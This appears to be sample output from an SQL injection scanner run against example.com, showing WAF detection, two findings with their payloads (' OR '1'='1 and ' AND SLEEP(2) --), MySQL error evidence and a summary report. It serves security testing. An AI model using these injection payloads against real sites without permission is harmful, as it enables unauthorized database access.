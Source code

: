 ```
[!] WAF detected: CLOUDFLARE (from headers)
[+] SQL Injection found! [MEDIUM]
    URL: https://example.com/search.php
    Method: GET
    Input: q
    Type: error-based
    Database: mysql
    Payload: ' OR '1'='1

[+] Time-based SQL Injection found! [MEDIUM]
    URL: https://example.com/product.php
    Method: GET
    Input: id
    Database: mysql
    Payload: ' AND SLEEP(2) --

[*] Scan completed!
[*] URLs scanned: 25
[*] Scan duration: 0:01:45
[*] WAF detected: Yes - CLOUDFLARE

[+] Found 2 SQL injection vulnerabilities:

╔═══════════════════════════════════════════════════════════════════════════╗
║                                                                           ║
║                   SQL INJECTION VULNERABILITY REPORT                      ║
║                                                                           ║
╚═══════════════════════════════════════════════════════════════════════════╝

[*] Scan Summary:
    - Target URL: https://example.com
    - Scan started: 2025-05-23 12:55:10
    - Scan completed: 2025-05-23 12:56:55
    - Duration: 0:01:45
    - URLs scanned: 25
    - WAF detected: Yes - CLOUDFLARE

[*] Vulnerability Statistics:
    - Total vulnerabilities found: 2
    - Vulnerability types: error-based (1), time-based (1)
    - Database types identified: mysql (2)
    - Risk levels: High (0), Medium (2), Low (0)

[*] Detailed Findings:

[+] Vulnerability #1:
    URL: https://example.com/search.php
    Method: GET
    Input/Parameter: q
    Payload: ' OR '1'='1
    Type: error-based
    Database: mysql
    Risk Level: MEDIUM
    Evidence: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...

[+] Vulnerability #2:
    URL: https://example.com/product.php
    Method: GET
    Input/Parameter: id
    Payload: ' AND SLEEP(2) --
    Type: time-based
    Database: mysql
```